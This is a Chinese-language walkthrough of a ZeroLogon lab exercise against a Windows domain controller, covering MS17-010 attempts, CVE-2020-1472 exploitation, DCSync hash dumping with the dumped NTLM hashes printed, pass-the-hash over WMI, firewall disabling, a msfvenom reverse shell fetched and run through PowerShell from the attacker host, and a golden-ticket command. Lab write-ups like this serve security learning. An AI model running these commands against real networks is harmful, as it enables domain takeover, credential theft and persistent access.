# zerologon靶场
## 外网探测

- **nmap扫描目标网段**

    ```
    nmap -sn 192.168.111.0/24
    ```
    
    发现192.168.111.100主机存活

## 信息收集

- **对192.168.111.100主机进行端口扫描**

    ```
    nmap -sS -Pn --min-rate 1000 -p- 192.168.111.100    
    ``` 
    
    53端口开放可能是DC主机
    445端口开放可能存在ms17-010永恒之蓝漏洞
    3389端口开放可以尝试远程桌面登录
    135端口开放可以尝试zerologon漏洞

- **利用SMB服务收集线索**
  使用enum4linux-ng工具（kali自带）
  ```
  enum4linux-ng 192.168.111.100
  ```
  
  可用信息汇总
  
  - 域控主机名：MASTERPC
  - 域名：MYD
  - Domain SID: S-1-5-21-1739055477-3500991023-555633429
  
  
  还探测到有ldap服务

- **用 ldapsearch 测试匿名绑定并获取关键信息**

## 漏洞探测

- **使用msf对目标进行永恒之蓝漏洞探测**
  ```
    msfconsole
    use auxiliary/scanner/smb/smb_ms17_010
    set RHOSTS 192.168.111.100
    run
  ``` 
  
  可能存在永恒之蓝

- **尝试使用脚本进行zerologon漏洞探测**
  
  ```
    python3 zerologon_tester.py  MASTERPC 192.168.111.100
  ```  
  
  成功探测到zerologon漏洞

## 漏洞利用

- **尝试使用msf对目标进行永恒之蓝漏洞利用**
  ```
    msfconsole
    use exploit/windows/smb/ms17_010_eternalblue
    set RHOSTS 192.168.111.100
    run
  ``` 
  
  漏洞利用成功但是没成功创建会话，可能是因为目标主机的防火墙拦截了反弹shell的回连流量

- **利用zerologon漏洞**
  - **清空域控机器账户密码**
    ```
    python cve-2020-1472-exploit.py MASTERPC 192.168.111.100
    ``` 
    
  - **DCSync 导出域管哈希**
    ```
    impacket-secretsdump -no-pass -just-dc myd.com/MASTERPC\$@192.168.111.100
    ``` 
    

    ```
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:ec0df45863a3751d56ba6df1e72f7218:::
    krbtgt:502:aad3b435b51404eeaad3b435b51404ee:5d6179aa303cb80767dd808af8e7949b:::
    ```
    成功获取域管理员的ntlm哈希

  - **WMI利用**
    获取域管理员哈希后尝试利用wmi远程管理登录域控
    ```
    mpacket-wmiexec -hashes :ec0df45863a3751d56ba6df1e72f7218 myd.com/administrator@192.168.111.100
    ``` 
    
    利用成功
    
    ```
    flag{48255d2fc759b14f4127fda7c5a86d89}
    ```

## 持久化
### msf上线

- **关闭防火墙**
    ```
    netsh advfirewall set allprofiles state off
    ```
    

- **再次尝试利用永恒之蓝**
   
   还是失败
- **上传并执行木马**
  - 生成木马程序
    ```
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.111.25 LPORT=4444 -f exe -o /tmp/dc_shell.exe
    ``` 
  - msf监听
    ```
    msfconsole -q
    use exploit/multi/handler
    set PAYLOAD windows/x64/meterpreter/reverse_tcp   # 与生成时对应
    set LHOST 192.168.111.25
    set LPORT 4444
    exploit -j
    ``` 
    
  
  - 在获得的wmi交互shell执行命令下载木马文件并运行
    kali开启http访问
    
    域控下载木马 
    ```
    powershell -c "Invoke-WebRequest -Uri http://192.168.111.25:1111/dc_shell.exe -OutFile C:\Windows\Temp\dc_shell.exe; Start-Process C:\Windows\Temp\dc_shell.exe"
    ``` 
    
    成功获得会话
    
    

### 黄金票据

```
krbtgt：5d6179aa303cb80767dd808af8e7949b
Domain SID: S-1-5-21-1739055477-3500991023-555633429
```
使用msf的kiwi模块
```
load kiwi
kiwi_cmd "kerberos::golden /user:Administrator /domain:MYD.COM /sid:S-1-5-21-1739055477-3500991023-555633429 /krbtgt:5d6179aa303cb80767dd808af8e7949b /ptt"
```



## 遇到的问题

- **wmi远控获得的shell乱码**
    
  - **原因：**目标机返回的中文无法被 wmiexec.py 默认的 UTF-8 编码正确解析，导致输出乱码并报错。
  - **解决方法：**
    - 第一步：在目标上查询当前代码页
      在 wmiexec 交互式 shell 中执行
      ```cmd
      chcp.com
      ```
      对于中文版 Windows，通常会返回 936（GBK 编码）。
      
    - 第二步：重新执行 wmiexec.py，并带上 -codec 参数
      退出当前会话，在 Kali 终端中重新连接，指定编码为 gbk（对应代码页 936）：

      ```bash
      impacket-wmiexec -hashes :ec0df45863a3751d56ba6df1e72f7218 myd.com/administrator@192.168.111.100 -codec gbk
      ```
      
      成功解决乱码问题

- **wmi远控关闭防火墙之后还是无法利用永恒之蓝获得会话**